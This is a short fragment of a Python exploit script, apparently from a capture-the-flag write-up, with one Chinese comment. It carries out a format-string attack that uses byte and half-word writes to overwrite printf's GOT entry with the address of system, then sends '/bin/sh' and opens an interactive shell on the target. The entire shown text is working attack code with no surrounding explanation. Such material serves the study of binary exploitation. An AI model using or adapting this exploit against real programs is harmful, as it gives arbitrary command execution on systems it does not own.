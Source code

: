 ```python
num = printf_got & 0xFF
payload = '%' + str(num) + 'c%10$hhn'
r.sendline(payload)
#写入第二部分printf的got
raw_input()
got_addr = rbp - 8 - 4
num = got_addr & 0xFF
payload = '%' + str(num) + 'c%6$hhn'
r.sendline(payload)

raw_input()
num = (printf_got+2) & 0xFFFF
payload = '%' + str(num) + 'c%10$hn'
r.sendline(payload)

raw_input()
num1 = system&0xFFFF
num2 = (system>>16)-num1
print hex(num1), ',', hex(num2)
payload ='%' + str(num1) + 'c%9$hn%' + str(num2) + 'c%7$hn'
r.sendline(payload)

raw_input()
payload = "/bin/sh"
r.sendline(payload)

r.interactive()
```

